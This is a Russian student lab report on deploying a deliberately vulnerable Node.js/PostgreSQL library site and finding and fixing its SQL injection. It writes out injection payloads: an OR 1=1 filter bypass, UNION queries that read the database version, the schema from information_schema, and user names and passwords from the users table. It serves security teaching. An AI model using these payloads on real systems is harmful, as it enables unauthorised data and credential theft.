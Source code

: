 # Лабораторная работа №2
> Цель работы: Поиск и устранение SQL Injection.

## Задание
В папке ``lab2`` находится ``nodejs`` уязвимое приложение. Необходимо развернуть его, найти SQL инъекцию и исправить. Модифицированное приложение загрузить в свой репозиторий GitHub.  
Для выполнения лабораторной потребуется проделать следующие шаги:  
1. Установить PostgreSQL сервер любой версии

![image](https://user-images.githubusercontent.com/96451409/147068507-9161d4c9-78cf-4702-a971-ec296f1814d0.png)

2. Создать БД ``lib``  

![image](https://user-images.githubusercontent.com/96451409/147068563-dea96d73-bfc0-4c6c-9f4b-ce13d8335187.png)

3. Применить к ней скрипты из папки ``db`` (либо создать объекты и вставить данные в таблицы руками). Скрипты выполнять в порядке указанном в имени файла.

![image](https://user-images.githubusercontent.com/96451409/147068600-416e62d4-ea8e-47fd-8f97-dc5d671099bb.png)

![image](https://user-images.githubusercontent.com/96451409/147068612-16edafed-895c-4dc7-ab77-fbe393d51e11.png)

3.1 Восстановить данные из файла ``data.sql``

При применении скрипта data.sql из-за присутствия кириллицы названия сбились, исправили их через pgAdmin:

![image](https://user-images.githubusercontent.com/96451409/147068777-609bb048-1783-4f8f-b444-f26188eca63f.png)

![image](https://user-images.githubusercontent.com/96451409/147068786-264985ba-5b9e-4308-ba68-14e6b765a695.png)

4. Установить ``nodejs`` версии 14.
5. Перейти в папку ``lab2`` и выполнить в ней команду ``npm install``.

![image](https://user-images.githubusercontent.com/96451409/147068920-10469168-8511-4f20-b862-7f8503f161ab.png)

6. Запустить сайт через Visual Studio Code или через команду ``npm start``.

![image](https://user-images.githubusercontent.com/96451409/147068937-935ff29f-112b-44db-9472-e49c9583d917.png)

7. Войти на сайт и увидеть список книг и авторов

![image](https://user-images.githubusercontent.com/96451409/147068969-c0ea0e30-ea12-40a9-aac4-eeaf9c29133e.png)

8. Обнаружить sql инъекцию

Введем "1'" и проверим результат поиска:

![image](https://user-images.githubusercontent.com/96451409/147069095-25792c26-b82b-4d2a-81db-64eaea1d67ce.png)

9. Написать отчёт с описанием найденной уязвимости и примерами её эксплуатации 9.1. Обход установленного фильтра 9.2. Получение данных из другой таблицы 9.3. Похищение пароля пользователя

Проверим возможность обхода установленного фильтра при вводе конструкции с символами комментирования «--»:

Обход фильтра при использовании конструкции: _**1000 ‘ OR 1 = 1 -- .**_

![image](https://user-images.githubusercontent.com/96451409/147069245-534edc2f-3fbc-4787-af3d-a867002037a3.png)

Теперь, например, посмотрим версию базы данных и имя пользователя:

_**'union select 0,version(), user --**_

![image](https://user-images.githubusercontent.com/96451409/147069307-fc45acec-2730-4177-8400-1b219a31697e.png)

Воспользуемся типичным видом развития атаки и получим имен таблиц и колонок базы данных, включая системные:

_**'union select 0,table_name, column_name from information_schema.columns --**_
 
 ![image](https://user-images.githubusercontent.com/96451409/147069369-d89775d6-c688-4fff-be13-1582ef9ca725.png)

![image](https://user-images.githubusercontent.com/96451409/147069390-37012eb3-15a0-4589-bf79-99610e7ea1e4.png)

 Можем отдельно получить данные из таблицы book:
 
_**'union select id, name, null from book--**_

![image](https://user-images.githubusercontent.com/96451409/147069427-00800808-a945-47e2-8e21-f91246830ee3.png)

Найдем информацию о таблице users: Видим, что таблица users имеет два столбца, pass и name с текстовым типом данных:

_**'union select 0, column_name, data_type from information_schema.columns where table_name = 'users'--**_

![image](https://user-images.githubusercontent.com/96451409/147069759-765a4e37-3c5b-41bd-9e7c-5e818699ca47.png)

Похитим пароль пользователя:

_**'union select 0, name, pass from public.users--**_

![image](https://user-images.githubusercontent.com/96451409/147069969-47ba3d68-77b1-4cdb-bc3b-5b891e813c6e.png)

10. Исправить уязвимость. 10.1 В отчёте привести пример того, что уязвимости больше не эксплуатируются

![image](https://user-images.githubusercontent.com/96451409/147070025-6ba80e3c-6f4e-4192-a03e-2f0ac4c9f011.png)

![image](https://user-images.githubusercontent.com/96451409/147070082-f67d26c9-936d-4356-b5f0-4abc56b64623.png)
